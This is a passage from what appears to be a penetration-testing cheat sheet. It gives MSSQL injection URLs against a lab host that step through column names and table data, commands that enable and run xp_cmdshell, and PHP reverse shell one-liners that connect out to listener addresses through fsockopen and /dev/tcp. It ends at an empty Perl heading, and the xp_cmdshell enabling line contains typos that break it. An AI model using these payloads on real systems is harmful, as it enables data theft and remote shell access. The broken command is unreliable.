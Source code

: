 > Remember to change **dbname** and **tablename** accordingly with the given situation.
> 
> After each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample.

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`

#### Actual data

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> After each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample.

`http://192.168.1.104/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`

#### Shell commands

`EXEC master..xp_cmdshell <command>`

> You need yo be 'sa' user.

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`

### Jenkins

---

# Post Exploitation

## Reverse Shell

### PHP Reverse Shell

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Tiny Reverse Shell

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.36.167/1337 0>&1'");
```

### Perl Reverse Shell
